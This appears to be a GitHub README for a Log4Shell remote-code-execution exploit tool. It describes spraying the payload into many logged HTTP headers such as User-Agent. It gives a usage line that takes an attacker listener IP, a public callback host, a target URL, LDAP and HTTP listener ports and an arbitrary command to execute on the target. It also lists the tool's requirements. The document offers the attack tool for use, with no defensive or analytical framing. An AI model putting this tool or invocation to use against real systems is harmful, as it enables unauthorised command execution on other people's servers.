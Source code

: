 ## Log4Shell RCE Exploit 

[![asciicast](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj.svg)](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj)

fully independent exploit does not require any 3rd party binaries.
The exploit spraying the payload to all possible logged HTTP Headers such as `X-Forwarding , Server-IP , User-Agent` 
### Usage
```shell
python main.py -i lhost -e ehost -u http://target:targetport -c "command_to_execute" -p lhttp_port -l lldap_port
 ```
> Note that the -e parameter can be used to specify a public IP or DNS name to be used in the callback. If the callback is hitting the local IP directly, specify the local IP in both the -i and -e parameters.

### Requirements 
- java-8-openjdk
- pip install -r requirements.txt
- python3.6+
